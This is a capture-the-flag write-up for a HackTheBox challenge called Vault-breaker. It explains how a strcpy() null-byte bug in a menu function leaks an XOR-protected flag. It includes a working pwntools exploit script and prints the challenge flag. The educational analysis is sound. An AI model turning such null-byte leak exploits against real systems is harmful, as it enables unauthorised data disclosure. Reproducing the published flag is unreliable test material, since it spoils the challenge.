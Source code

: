 # Vault-breaker
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9169b934-6493-4a9f-a579-ee70fff53121)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Exploiting strcpy() bug to leak data.

## DESCRIPTION:
Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. 
Something is hidden inside it, can you find out the way it works and bring it to Bonnie?

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fee75c8f-8712-4253-86f6-e9d4223e992a)

> BINARY PROTECTIONS 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa77f0fa-38d7-4e28-a6db-91959cbb4fba)


2. After decompiled the binary and analyzed the `secure_password()` function which is the second menu option.
3. I found no vuln and it just perform safe XOR operation for the flag strings.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d86234e-a150-4c78-9edc-335c90fea824)


4. But the bug is at the 1st menu option which is the `new_key_gen()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0e69019-3714-4578-ab4f-556a74383fd2)

5. It checks whether the user input has null byte, then it shall printed out the original char.
6. Well the vuln is at the strcpy(), if we're using strcpy() it does copy the nullbyte (at the end of the strings). For secure coding practice better using memcpy().
7. Anyway the exploit here, is we can leak the flag char one by one by set a position manually for the nullbyte.
8. As we know the program accepts 31 bytes and there's a memset which set 32 bytes of 0 at first.
9. So rather we leak it from the left, we can leak it more easily from the right using for loop.

> SCRIPT TEMP

```py
for i in range(0x1F, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))
```

10. After we leak all the character then we open the second menu to get the flag.

> FULL SCRIPT

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

> TEST LOCALLY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df902d1-7c75-4581-a0d1-14b5872ec7c6)


11. Great we got it locally, but notice we failed to leak the `}`. Kinda confused why because our local flag length is 24.
12. Anyway let's send it remotely.

> REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76bf0af6-9662-4f2d-89b2-4103ac9e8251)


#### NOTES: 
```
The binary at the remote server is very unstable, took me a while to get the flag remotely,i keep terminate and spawn the host again and again.
Because if you tried to leak it manually without the script, you'll notice few char can't be leaked and when you restart the host, it can be leaked.
```

## FLAG
```
HTB{d4nz4_kudur0r0r0}
```


